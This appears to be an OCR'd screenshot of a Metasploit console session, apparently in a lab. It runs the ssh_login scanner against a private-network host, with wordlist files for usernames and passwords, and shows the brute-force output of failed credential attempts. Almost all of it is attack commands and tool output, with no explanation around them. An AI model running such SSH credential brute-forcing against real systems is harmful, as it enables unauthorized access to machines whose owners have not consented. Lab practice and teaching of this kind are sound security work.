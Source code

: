 ```
msf6 auxiliary(scanner/ssh/ssh_login) > show options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   ANONYMOUS_LOGIN   false            yes       Attempt to login with a blank username and
                                                password
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   CreateSession     true             no        Create a new session for every successful l
                                                ogin
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the
                                                 current database
   DB_ALL_PASS       false            no        Add all passwords in the current database t
                                                o the list
   DB_ALL_USERS      false            no        Add all users in the current database to th
                                                e list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the cur
                                                rent database (Accepted: none, user, user&r
                                                ealm)
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), see https://docs.metasp
                                                loit.com/docs/using-metasploit/basics/using
                                                -metasploit.html
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a
                                                 host
   THREADS           1                yes       The number of concurrent threads (max one p
                                                er host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separat
                                                ed by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all us
                                                ers
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.1.22
RHOSTS => 192.168.1.22
msf6 auxiliary(scanner/ssh/ssh_login) > set USER_FILE /home/ucup/Desktop/username.txt
USER_FILE => /home/ucup/Desktop/username.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /home/ucup/Desktop/password.txt
PASS_FILE => /home/ucup/Desktop/password.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set VERBOSE true
VERBOSE => true
msf6 auxiliary(scanner/ssh/ssh_login) > run

[*] 192.168.1.22:22 - Starting bruteforce
[-] 192.168.1.22:22 - Failed: 'msfadmif:msfadmii'
[!] No active DB -- Credential data will not be saved!
[-] 192.168.1.22:22 - Failed: 'msfadmif:msfadmif'
[-] 192.168.1.22:22 - Failed: 'msfadmif:msfadmia'
[-] 192.168.1.22:22 - Failed: 'msfadmif:msfadmid'
[-] 192.168.1.22:22 - Failed: 'msfadmif:msfadmin'
...
[-] 192.168.1.22:22 - Failed: 'msfadmin:msfadmid'
```